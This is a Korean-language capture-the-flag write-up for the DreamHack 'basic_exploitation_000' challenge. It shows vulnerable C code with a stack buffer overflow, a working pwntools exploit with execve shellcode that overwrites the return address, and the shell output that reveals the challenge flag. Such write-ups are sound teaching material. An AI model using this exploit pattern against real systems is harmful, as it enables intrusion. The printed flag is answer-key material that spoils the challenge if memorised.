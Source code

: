 # [DreamHack] basic_exploitation_000

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_000)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [basic_exploitation_000.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8537731/basic_exploitation_000.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159487430-702e96ca-1186-43a2-873d-24528098c343.png)

## Analysis

```c
int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

`buf`의 크기보다 더 긴 입력을 줄 수 있어 BOF가 발생한다. `buf`에 셸코드를 입력하고 `main()`의 return address를 `buf`의 주소로 덮으면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *
context(arch='i386')

REMOTE = True

if not REMOTE:
    r = process('./release/basic_exploitation_000')
else:
    r = remote('host1.dreamhack.games', 19778)

r.recvuntil('0x')
buf = int(r.recvline()[:-2], 16) # buf

shellcode = asm('''
xor ecx, ecx
xor edx, edx
xor eax, eax
mov al, 0x1b
sub al, 0x10
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
int 0x80
''')

payload = shellcode.ljust(0x84, b'\x90') + p32(buf)
r.sendline(payload)

r.interactive()
```

```
[+] Opening connection to host1.dreamhack.games on port 19778: Done
[*] Switching to interactive mode
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}
```
